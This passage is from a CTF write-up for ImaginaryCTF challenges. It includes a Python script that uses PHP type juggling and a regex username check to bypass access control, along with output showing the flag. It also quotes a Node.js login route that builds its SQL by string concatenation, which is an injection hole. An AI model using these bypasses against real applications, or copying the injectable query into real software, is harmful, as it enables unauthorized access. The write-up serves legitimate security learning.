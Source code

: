 Bypass `preg_match("/".$admin['username']."/", $_SESSION['username']` by creating an account with any username that includes the word `admin` in it, you can exploit the PHP Type Juggling vulnerability.

Bypass `$user_id == "php"` using use_id=0

![](https://hackmd.io/_uploads/r1byfQoch.png)

Solution:
```python
import requests

url = "http://idoriot-revenge.chal.imaginaryctf.org/"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None

with requests.Session() as session:
    session_requests(session, 'POST', 'register.php', {"username":"admin_test","password":"test"})
    res = session_requests(session, 'GET', 'index.php?user_id=0')
    print(res)

```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 6.py
Welcome, User ID: 595833842<h1>Flag</h1><p>ictf{this_ch4lleng3_creator_1s_really_an_idoriot}</p><h1>Source Code</h1><code><span style="color: #000000">
...
```

## blank
Source code: `https://imaginaryctf.org/r/FVauo#blank_dist.zip`

```javascript
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```